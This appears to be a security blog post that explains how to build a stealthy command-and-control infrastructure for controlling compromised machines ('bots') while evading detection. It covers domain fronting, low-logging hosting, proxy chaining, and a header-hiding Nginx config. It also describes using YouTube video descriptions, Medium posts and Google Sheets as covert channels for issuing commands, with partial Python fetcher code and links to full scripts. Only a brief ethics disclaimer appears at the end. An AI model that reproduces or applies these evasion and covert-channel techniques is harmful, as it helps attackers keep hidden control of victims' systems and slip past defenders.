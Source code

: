 ```yaml
---
layout: post
title: "Crafting an Advanced and Inconspicuous C2 Infrastructure"
date: 2024-06-25
categories: security c2
---
```


## Crafting an Advanced and Inconspicuous C2 Infrastructure

In today's cybersecurity landscape, creating a Command and Control (C2) infrastructure that is both advanced and inconspicuous is paramount. Whether you're involved in ethical hacking, penetration testing, or other legitimate purposes, your C2 operations must remain undetectable. This blog post explores innovative ways to establish an advanced C2 infrastructure using free platforms such as YouTube, Medium, and Google Sheets. Let's dive into the art of blending in with regular web traffic while maintaining the stealth you need.

### What is a C2 Server?

A C2 (Command and Control) server is a central hub used to send commands to and receive data from compromised systems (bots). For your script to operate effectively and inconspicuously, your C2 server should:
- Host command files for the script to fetch and execute.
- Receive data and status updates from the script.
- Ensure all communications are encrypted and stealthy.

### Setting Up a Stealthy C2 Server

#### 1. Choose a Stealthy Hosting Solution
- **Cloud Providers:** Use reputable cloud providers (AWS, Google Cloud, Azure) with minimal logging and monitoring.
- **Domain Fronting:** Use domain fronting to disguise traffic as legitimate requests to well-known services.
- **Proxy Servers:** Route traffic through multiple proxy servers to obscure the origin and destination.

#### 2. Use HTTPS with Domain Fronting
- **HTTPS:** Ensure all communications are encrypted using HTTPS.
- **Domain Fronting:** Configure your C2 server to use domain fronting. This technique routes traffic through high-reputation domains, making it appear as legitimate traffic.

#### 3. Create a Web Server with Stealth Features
- **Server Software:** Use a lightweight web server like Nginx or Apache.
- **Stealth Configuration:** Configure the server to use inconspicuous URLs and paths. Hide server banners and error messages.

*Example Nginx configuration with stealth features*:

```nginx
server {
    listen 443 ssl;
    server_name mylegitdomain.com;

    ssl_certificate /etc/ssl/certs/mylegitdomain.com.crt;
    ssl_certificate_key /etc/ssl/private/mylegitdomain.com.key;

    location /api {
        proxy_pass http://backend_server;
        proxy_set_header Host $host;
        proxy_set_header X-Real-IP $remote_addr;
        proxy_set_header X-Forwarded-For $proxy_add_x_forwarded_for;
        proxy_hide_header X-Powered-By;
        add_header X-Content-Type-Options nosniff;
        add_header X-Frame-Options DENY;
    }
}
```

#### 4. Implement Encrypted Command and Control
- **Commands Endpoint**: Create an endpoint for fetching commands.
- **Webhook Endpoint**: Create an endpoint for receiving data and status updates.
Example Flask application to handle commands and webhooks:*

[Flask Code Here](https://github.com/Dyst0rti0n/blog-scripts/blob/main/c2-scripts/flask/example.py)

## Free and Inconspicuous C2 Hosting Platforms
#### 1. YouTube: A Video Platform Turned C2 Hub
Imagine leveraging YouTube, the world’s largest video-sharing platform, as your stealthy C2 server. By embedding commands within video descriptions or comments, you can seamlessly blend your C2 operations into the vast sea of YouTube content.

#### Why YouTube?

- **Publicly Accessible**: Easily accessible and free.
- **High Traffic**: Blends in with regular traffic.
= **Dynamic Content**: Regular updates and high engagement.

#### Setting Up:
- **Create a YouTube Channel**: Use an anonymous or nondescript name.
- **Upload Videos**: Include commands in video descriptions or comments.
- **Fetch Commands**: Use the YouTube API to parse the descriptions.

*Example: Fetching Commands from YouTube Descriptions*

```python
from googleapiclient.discovery import build

def get_latest_video_description(api_key, channel_id):
    youtube = build('youtube', 'v3', developerKey=api_key)
    request = youtube.search().list(part='snippet', channelId=channel_id, order='date', maxResults=1)
    response = request.execute()
    
    if response['items']:
        video_id = response['items'][0]['id']['videoId']
        video_request = youtube.videos().list(part='snippet', id=video_id)
        video_response = video_request.execute()
...
```
[See the full script on GitHub](https://github.com/Dyst0rti0n/blog-scripts/tree/main/c2-scripts/youtube-hub)


#### 2. Medium: Blogging with a Hidden Agenda
Medium is a popular platform for sharing ideas and stories, but with a twist, it can become your covert C2 server. By posting commands as blog entries, you can hide in plain sight among the thousands of articles published daily.

#### Why Medium?
- **Public and Free**: Easily accessible and free.
- **Frequent Updates**: Constantly updated with new posts.
- **Anonymity**: Easy to create multiple accounts.

#### Setting Up:
1. **Create a Medium Account**: Use an anonymous or nondescript name.
2. **Post Commands**: Embed commands within blog posts.
3. **Fetch Commands**: Use RSS feeds or web scraping to fetch the latest commands.

*Example: Fetching Blog Posts from Medium*

```python
import feedparser
import time

def get_latest_post(feed_url):
    """
    Fetch the latest blog post from a given Medium RSS feed URL.

    Parameters:
    feed_url (str): The URL of the Medium RSS feed.

    Returns:
    str: The title of the latest blog post if available, otherwise None.
    """
    feed = feedparser.parse(feed_url)
    if feed.entries:
        return feed.entries[0].title
    return None
...
```
[See the full script on GitHub](https://github.com/Dyst0rti0n/blog-scripts/tree/main/c2-scripts/medium-fetcher)

#### 3. Google Sheets: Spreadsheet C2 Mastery
Google Sheets, a ubiquitous tool for collaboration and data storage, can also serve as an inconspicuous C2 server. By using the Google Sheets API, you can store commands and fetch them as needed.

#### Why Google Sheets?
- **Collaboration Tool**: Commonly used for legitimate purposes.
- **API Access**: Easy to fetch and update data programmatically.
- **Free**: Generous free tier for storage and access.

#### Setting Up:
1. **Create a Google Sheet**: Share with a service account for API access.
2. **Post Commands**: Add commands as new rows in the sheet.
3. **Fetch Commands**: Use the Google Sheets API to retrieve commands.

*Example: Fetching Commands from Google Sheets*


```python
import gspread
from oauth2client.service_account import ServiceAccountCredentials
import json
import sys

def get_latest_command(sheet_url, creds_json):
    try:
        scope = ["https://spreadsheets.google.com/feeds", "https://www.googleapis.com/auth/drive"]
        
        creds = ServiceAccountCredentials.from_json_keyfile_name(creds_json, scope)
        client = gspread.authorize(creds)
        
        sheet = client.open_by_url(sheet_url).sheet1
        
        commands = sheet.get_all_records()
        
        if commands:
            return commands[-1]['Command']
        else:
            return None
...
```

[See the full script on GitHub](https://github.com/Dyst0rti0n/blog-scripts/tree/main/c2-scripts/google-sheets)

### Conclusion
In an age where cybersecurity measures are becoming increasingly sophisticated, it's essential to think outside the box to stay ahead. Leveraging platforms like YouTube, Medium, and Google Sheets not only provides a cost-effective C2 infrastructure but also helps maintain a low profile. These methods allow your operations to blend seamlessly into the vast digital landscape, reducing the risk of detection.

Remember, with great power comes great responsibility. Ensure that all actions taken are ethical and legal, and that you have explicit permission to operate on any systems you control. Misuse of such technology can lead to severe legal consequences.

Stay stealthy, stay ethical, and continue exploring the boundaries of cybersecurity innovation!